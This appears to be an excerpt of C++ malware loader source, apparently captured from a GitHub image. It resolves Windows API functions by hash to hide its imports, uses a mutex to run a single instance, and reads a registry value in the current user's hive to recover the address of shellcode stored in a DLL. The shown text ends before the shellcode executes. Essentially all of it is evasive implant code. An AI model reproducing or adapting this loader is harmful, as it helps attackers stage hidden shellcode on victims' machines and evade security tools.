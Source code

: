 ```cpp
    kernel32dll = (HMODULE)GetModule(KERNEL32DLL_HASH);
    LoadLibraryFunc = (LoadLibraryType)GetSymbolAddress(kernel32dll, (LPCSTR)LoadLibraryName);
    VirtualAllocFunc = (VirtualAllocType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualAllocName);
    VirtualProtectFunc = (VirtualProtectType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualProtectName);

    SleepFunc = (SleepType)GetSymbolAddress(kernel32dll, (LPCSTR)SleepName);
    VirtualQueryFunc = (VirtualQueryType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualQueryName);
#ifdef FREE
    VirtualFreeFunc = (VirtualFreeType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualFreeName);
#endif

    CreateThreadFunc = (CreateThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)CreateThreadName);
    WaitForSingleObjectFunc = (WaitForSingleObjectType)GetSymbolAddress(kernel32dll, (LPCSTR)WaitForSingleObjectName);
    GetCurrentThreadFunc = (GetCurrentThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)GetCurrentThreadName);
    CreateMutexFunc = (CreateMutexType)GetSymbolAddress(kernel32dll, (LPCSTR)CreateMutexName);
    ReleaseMutexFunc = (ReleaseMutexType)GetSymbolAddress(kernel32dll, (LPCSTR)ReleaseMutexName);
    CloseHandleFunc = (CloseHandleType)GetSymbolAddress(kernel32dll, (LPCSTR)CloseHandleName);
    ExitThreadFunc = (ExitThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)ExitThreadName);


    HANDLE hMutex = CreateMutexFunc(NULL, TRUE, (LPCWSTR)mutexName);
    if (NULL == hMutex) {
        // Mutex exists, so we exit
        return EXIT_FAILURE;
    }

    // msvcrt.dll exports
    msvcrtdll = (HMODULE)GetModule(MSVCRTDLL_HASH);
    if (0 == (int)msvcrtdll) {
        msvcrtdll = LoadLibraryFunc((LPCWSTR)msvcrtdllName);
    }
    memsetFunc = (memsetType)GetSymbolAddress(msvcrtdll, (LPCSTR)memsetName);
    memcpyFunc = (memcpyType)GetSymbolAddress(msvcrtdll, (LPCSTR)memcpyName);
    memcmpFunc = (memcmpType)GetSymbolAddress(msvcrtdll, (LPCSTR)memcmpName);
#ifdef _DEBUG
    printfFunc = (printfType)GetSymbolAddress(msvcrtdll, (LPCSTR)printfName);
#endif

    // Advapi32.dll Loading
    advapi32dll = (HMODULE)GetModule(ADVAPI32DLL_HASH);
    if (0 == (int)advapi32dll) {
        advapi32dll = LoadLibraryFunc((LPCWSTR)advapi32dllName);
    }

    // Advapi32.dll exports
    RegOpenKeyFunc = (RegOpenKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegOpenKeyName);
    RegGetValueFunc = (RegGetValueType)GetSymbolAddress(advapi32dll, (LPCSTR)RegGetValueName);
    RegSetValueExFunc = (RegSetValueExType)GetSymbolAddress(advapi32dll, (LPCSTR)RegSetValueName);
    RegCloseKeyFunc = (RegCloseKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegCloseKeyName);

    result = RegOpenKeyFunc(HKEY_CURRENT_USER, (LPCWSTR)regKey, &hKey);
    if (result != ERROR_SUCCESS) {
        return EXIT_FAILURE;
    }

    // Recovering Address of Shellcode Written in the DLL
    ULONG64 shellcodeAddress = 0;
    DWORD dwSize = sizeof(shellcodeAddress);

    value = (LPCTSTR)shValue;
```